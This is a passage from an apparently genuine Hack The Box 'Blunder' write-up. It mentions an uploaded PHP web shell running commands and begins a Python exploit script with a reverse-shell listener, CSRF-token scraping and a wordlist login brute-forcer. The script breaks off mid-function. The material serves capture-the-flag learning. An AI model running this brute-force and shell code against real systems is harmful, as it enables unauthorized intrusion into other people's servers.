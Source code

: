 Sure, if we try now we have the `0x4rt3mis.php `uploaded on the tmp folder and executing commands

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2003:34:02.png)

Let's update the script

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2003:35:40.png)

user_brute.py

```py
#!/usr/bin/python3
# Date: 2021-09-02
# Exploit Author: 0x4rt3mis
# Hack The Box - Blunder

import argparse
import requests
import sys
import os
import socket, telnetlib
from threading import Thread
import threading
import re

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setar o handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First, we need to get the CSRFToken
def getCSRFToken(rhost):
    # Make csrfMagicToken global
    global csrf_token
    # Make the request to get csrf token
    csrf_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = csrf_page.text.find("tokenCSRF")
    # Get only the csrfMagicToken in it
    csrf_token = csrf_page.text[index:index+128].split('"')[4]
    if csrf_token:
        return csrf_token
    else:
        print("[+] Cannot get the CSRF_TOKEN[+]")
        exit
    
# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
```
